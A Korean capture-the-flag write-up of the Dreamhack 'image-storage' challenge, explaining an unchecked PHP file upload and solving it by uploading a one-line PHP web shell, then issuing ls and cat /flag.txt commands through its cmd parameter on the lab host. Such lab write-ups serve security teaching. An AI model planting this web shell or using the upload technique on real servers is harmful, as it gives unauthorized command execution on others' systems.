









## 📍image-storage

```
php로 작성된 파일 저장 서비스입니다.
파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.
```

이런 구조로 되어 있다.





아무 파일이나 업로드하면 `/upload.php`로 이동하며 저장된 경로를 보여준다.



List로 가보면 업로드된 폴더명과 파일명이 보인다.




#### 소스코드

upload.php는 이용자가 업로드한 파일을 `uploads` 폴더에 복사한다.



#### 취약점

업로드한 파일에 대해 아무 검사도 하지 않으므로 웹 셸 업로드 공격에 취약하다.


#### 해결

php 웹셸을 업로드하고 방문하면 서버의 셸을 획득할 수 있다.

```php
<?php
	system($_GET[cmd]);
?>

/* 이런 파일을 업로드 하고
?cmd=ls를 URL로 주면 공격 가능! */
```

구글링해서 찾은 웹셸을 `.php`로 저장하고 업로드한 뒤 저장된 경로로 들어간다.

```
http://host3.dreamhack.games:21649/uploads/webshell.php
```

여기서 `?cmd=ls`를 URL로 주면 공격 가능하다고 되어 있다. 넣어보면 커맨드가 작동한다.


상위 경로로 가본다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20../
```

- `%20`: URL에서 공백을 나타냄

루트 경로로 찾아간다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20/
```


`flag.txt`의 경로를 알아냈으니, `cat` 커맨드로 `flag.txt`를 읽어보면 끝!
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=cat%20/flag.txt
```

